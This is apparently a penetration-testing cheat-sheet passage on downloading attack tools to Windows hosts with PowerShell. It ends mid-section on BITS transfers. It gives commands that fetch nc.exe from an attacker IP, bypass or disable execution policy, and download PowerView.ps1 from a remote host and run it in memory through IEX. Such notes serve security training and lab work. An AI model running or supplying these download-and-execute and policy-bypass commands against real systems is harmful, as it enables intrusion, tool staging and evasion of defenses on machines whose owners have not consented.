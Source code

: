 ```
echo $webclient = New-Object System.Net.WebClient > httpdownload.ps1
echo $webclient.DownloadFile("[Download URL]","[File Name]") >> httpdownload.ps1
```

* Note that you have to insert the download link and filename in the command on the last line and replace all the bold with the URL and the filename.
* Once verified that the PS script is created we can execute with:

```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File httpdownload.ps1
```

* Alternatively we can also execute the command from a regular command line in Windows powershell to download files without creating a script

```
powershell -c "(new-object System.Net.WebClient).DownloadFile('[Download URL]','[File Name]')"
```

* The -c option executes the command provided within the double quotes with Powershell.

```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://172.16.3.1/nc.exe','nc.exe')"
```

* The default execution policy is ‘Restricted’ which means the system will not run Powershell scripts.
* With the following powershell command we can get the current execution policy:

```
Get-ExecutionPolicy
```

* We can now set the policy to ‘Unrestricted’:

```
Set-ExecutionPolicy Unrestricted
```

### Loading Script into Memory with powershell

* The script can be loaded into memory with powershell&#x20;

```
powershell.exe -nop -ep bypass (new-object system.net.webclient).downloadstring('http://10.10.15.49/PowerView.ps1') | IEX
#or 
(new-object system.net.webclient).downloadstring('http://10.10.15.49/PowerView.ps1') | IEX
```

### Powershell Downloads: Start-BitsTransfer

* Another way to download files with Powershell is by using the Background Intelligent Transfer Service (BITS).
* The Start-BitsTransfer cmdlet creates a BITS transfer job to transfer one or more files between a client computer and a server.
* BITS has to be enabled on the target machine in order for it to work.
* The following command will download nc.exe from a remote web server to the C drive:
